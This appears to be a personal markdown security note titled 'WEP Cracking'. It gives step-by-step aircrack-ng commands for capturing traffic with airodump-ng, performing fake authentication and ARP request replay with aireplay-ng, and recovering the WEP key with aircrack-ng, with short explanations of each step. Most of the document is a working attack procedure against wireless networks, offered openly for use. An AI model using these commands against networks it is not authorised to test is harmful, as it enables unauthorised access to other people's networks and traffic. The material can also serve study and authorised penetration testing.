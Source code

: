 ```yaml
---
title: WEP Cracking
tags:
  - security
  - exploitation
  - tool
date: 2024-01-28 14:15:56 -0600
updated: 2025-05-21 19:02:20 -0500
---
```


### Busy Network

````bash
airodump-ng <interface>
airodump-ng --bssid <router-bssid> --channel <channel> --write <filename> <interface>
aircrack-ng <filename>
````

* Minimum ~50K Data packets are required in order to crack the password
* Aircrack-ng output will not always consist of the password in ASCII format. We can connect to the network using the numeric password after removing the colons

### Idle Network

An "Association Attack/ Fake Authentication" needs to be performed in order to connect to the network and inject packets into the network in order to increase the traffic on the network.

Injecting packets onto the network can be done using "ARP Request Replay Attack". There are other methods but this is the most reliable approach

**Working**  
Wait for an ARP packet to be generated  
Capture the packet and repeat it (Retransmit it)  
Each ARP packet will cause the Access Point to generate an new IV which can be collected to crack the password

````bash
airodump-ng <interface>
airodump-ng --bssid <router-bssid> --channel <channel> --write <filename> <interface>
aireplay-ng --fakeauth 0 -a <router-bssid> -h <myadapter-bssid> <interface>
````

The `<myadapter-bssid>` can be found using `ifconfig` under "unspec" field the 1st 6 fields. When using in aireply-ng replace the dashes with colons

Association with network only means that we want to connect to the network (Similar to clicking the network name in the available network list). We are not authenticated so we cannot send any packets

````bash
aireplay-ng --arpreplay -b <router-bssid> -h <myadapter-bssid> <interface>
aircrack-ng output.cap
````

